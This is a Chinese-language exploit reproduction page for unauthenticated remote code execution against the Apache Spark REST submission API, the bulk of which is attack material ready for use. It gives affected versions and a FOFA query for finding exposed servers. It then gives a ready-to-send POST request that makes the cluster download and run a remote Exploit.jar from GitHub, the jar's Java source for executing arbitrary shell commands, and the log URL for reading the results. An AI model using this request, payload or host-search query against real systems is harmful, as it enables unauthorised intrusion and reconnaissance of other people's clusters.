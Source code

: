 # Apache Spark create 未授权访问漏洞

## 漏洞描述

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache Spark 3.1.2, 3.2.1, 3.3.0</a-checkbox></br>

## FOFA

<a-checkbox checked>app="APACHE-Spark-Jobs"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1648714918899-1bdd6f0c-f8fd-41e7-a89e-58efefb77413.png)

发送请求包

```php
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
# https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar
# Github代码为编译后的代码
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

![img](../../../.vuepress/public/img/1648715077646-aa01a6a0-fb6b-4bb7-9659-4b70ed5ad62a.png)

再访问获得的 submissionId Url查看结果

```php
/logPage/?driverId={submissionId}&logType=stdout
```

![img](../../../.vuepress/public/img/1648715186026-e56711ca-b56f-4a59-b380-efefcabf08f9.png)
